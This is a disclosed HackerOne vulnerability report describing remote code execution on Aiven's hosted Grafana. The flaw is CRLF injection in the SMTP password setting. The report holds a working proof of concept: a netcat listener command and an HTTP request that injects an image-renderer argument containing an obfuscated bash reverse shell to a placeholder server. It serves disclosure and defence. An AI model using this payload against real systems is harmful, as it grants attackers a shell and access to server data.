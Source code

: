 # Grafana RCE via SMTP server parameter injection

## Report Details
- **Report ID**: 1200647
- **URL**: https://hackerone.com/reports/1200647
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-05-18T07:33:54.133Z
- **Disclosed**: 2022-11-08T06:29:56.557Z

## Reporter
- **Username**: jarij
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aiven_ltd

## Vulnerability Information
## Summary:

This report is similar to [#1180653](https://hackerone.com/reports/1180653), except with different parameter injection entrypoint.

SMTP server password configuration setting accepts new line characters. This can be used to set non-exported configuration variables. Using this CRLF-injection, the `rendering_args` of grafana image renderer can be modified which leads to code execution on the Grafana server.

## Steps To Reproduce:

1.Create Aiven Grafana instance
2.Setup netcat listener on your server: `nc -n -lvp 4444`
3.Send the following request to the grafana instance, replace place holders. The aivenv1 token can be retrieved by inspecting the browser traffic.
4. Browse to https://INSTANCE_SUBDOMAIN.aivencloud.com/render/x to trigger the exploit.

```http
PUT /v1/project/PROJECT_NAME/service/GRAFANA_INSTANCE_NAME HTTP/1.1
Host: console.aiven.io
Connection: keep-alive
Accept: application/json
Authorization: aivenv1 AIVEN_TOKEN_HERE
X-Aiven-Client-Version: aiven-console/3.5.1-1104.g2809991854
Content-Type: application/json
Origin: https://console.aiven.io

{
    "user_config": {
        "smtp_server": {
            "host": "example.org",
            "port": 1,
            "from_address": "x@examle.org",
            "password": "x\r\n[plugin.grafana-image-renderer]\r\nrendering_args=--renderer-cmd-prefix=bash -c bash$IFS-l$IFS>$IFS/dev/tcp/SERVER_IP/4444$IFS0<&1$IFS2>&1"
        }
    }
}
```

## Impact

Command execution on the grafana server. Access and modify data on the grafana server and possibly the attacker could pivot into other servers on the aiven network.

## Attachments
No attachments
